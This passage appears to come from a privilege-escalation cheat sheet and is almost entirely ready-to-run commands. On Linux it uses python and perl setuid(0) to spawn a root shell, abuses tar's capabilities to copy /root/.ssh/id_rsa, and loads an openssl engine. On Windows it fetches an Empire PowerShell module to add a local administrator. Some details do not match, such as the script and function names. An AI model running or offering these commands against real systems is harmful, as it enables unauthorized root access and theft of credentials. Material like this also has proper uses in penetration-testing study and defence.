     b.  /usr/bin/python2.6 -c \'import os; os.setuid(0);
        > os.system(\"/bin/bash\")\'

    c.  id && whoami

2.  getcap -r / 2\>/dev/null

    a.  /usr/bin/perl = cap_setuid+ep

    b.  /usr/bin/perl -e \'use POSIX (setuid); POSIX::setuid(0); exec
        > \"/bin/bash\";\'

    c.  id && whoami

<a name="abusing-binary-capabilities"></a>
# Abusing Binary Capabilities

Domain: No

Local Admin: Yes

OS: Linux

Type: Abusing Capabilities

Methods:

1.  getcap -r / 2\>/dev/null

    a.  /usr/bin/tar = cap dac read search+ep

    b.  /usr/bin/tar -cvf key.tar /root/.ssh/id_rsa

    c.  /usr/bin/tar -xvf key.tar

2.  openssl req -engine /tmp/priv.so

    a.  /bin/bash -p

    b.  id && whoami

<a name="abusing-activesessions-capabilities"></a>
# Abusing ActiveSessions Capabilities

Domain: No

Local Admin: Yes

OS: Windows

Type: Abusing Capabilities

Methods:

https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/lateral_movement/Invoke-SQLOSCmd.ps1

. .\\Heidi.ps1

Invoke-SQLOCmd -Verbose -Command "net localgroup administrators user1
/add" -Instance COMPUTERNAME
